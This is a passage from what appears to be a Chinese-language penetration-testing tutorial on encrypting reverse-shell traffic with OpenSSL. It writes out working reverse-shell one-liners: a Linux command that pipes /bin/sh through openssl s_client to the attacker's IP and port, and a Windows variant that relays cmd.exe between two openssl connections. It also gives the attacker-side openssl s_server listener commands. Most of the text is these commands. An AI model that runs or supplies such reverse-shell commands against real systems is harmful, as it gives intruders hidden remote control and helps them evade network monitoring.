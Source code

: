 > 命令语法: `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [服务端IP]:[监听端口] > /tmp/s; rm /tmp/s`

![image-20221105165717054](流量加密/image-20221105165717054.png)	



随后攻击机接收到反弹回来的shell

![image-20221105170041611](流量加密/image-20221105170041611.png)	

​	

#### Windows客户端

与Linux客户端不一样的是, Windows客户端需要在攻击机用两个shell分别创建两个服务端来对接, 这两个服务端可以是相同IP不同端口

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 6666
```

> 命令语法: `openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]`
>

![image-20221105163711458](流量加密/image-20221105163711458.png)
